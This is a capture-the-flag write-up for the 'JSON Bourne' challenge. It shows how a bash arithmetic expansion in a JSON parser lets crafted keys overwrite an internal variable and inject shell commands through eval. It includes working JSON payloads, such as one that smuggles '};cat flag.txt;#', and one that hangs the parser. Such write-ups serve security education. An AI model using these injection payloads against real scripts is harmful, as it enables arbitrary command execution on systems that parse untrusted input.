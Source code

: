 # JSON Bourne (misc, 200p, 46 solved) [bash script]


After looking carefully at the code and learning the bash scripting syntax, we found in parser.sh:

```
parseString() {
    local input=$1
    local i=$2
    local res=$3
    declare -Ag $res

    makeVar
    eval ${res}'[_type]=$var_name'
    makeKind "STRING" $var_name

    getString "$input" "$i" "$res"

    local task_i
    local result_str="${!res}"
    for (( task_i=0; task_i < ${#result_str}; task_i++ )); do
        if [[ "${result_str:$task_i:5}" = "task " ]]; then
            local suffix="${result_str:$((task_i+5)):$((${#result_str}-task_i-5))}"
            if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
                local color=$var_name
                normalizeNumber "$suffix" $color "var_"
                eval ${res}'[_color]=${color}'
            fi
        fi
    done
}
```
in particular this line:

```
if [[ "$((suffix > 0))" = "1" && "$((suffix <= 8))" = "1" ]]; then
```

after fuzzying around, we noticed that allows arithmetic assignment, by attempting to use this line:

```
{"task 1=12":"as"}
```

Then we used this vulnerability to rewrite  `_var_name_i`  in such a way that some new variables used in evals would be somehow "double referenced".

We ended up in :

```
["task _var_name_i=10","var_11","task _var_name_i=10",{"task _var_name_i=13":"=SHELL","var_10":"b"},"concat",{"ta":["ta","aT","task _var_name_i=10",{"task _var_name_i=13":"};cat flag.txt;{","var_12":"b"},"l00p"]}]
```

Which, after a more accurate analysis by @Zommiommy, could also be written as:

```
{"task _var_name_i=10":"};cat flag.txt;#
```

Curiously, changing the value of ` _var_name_i` could also cause the program to loop forever:
```
{"going":["down","task _var_name_i=10",{"the":"rabbit"},"hole"]}
```
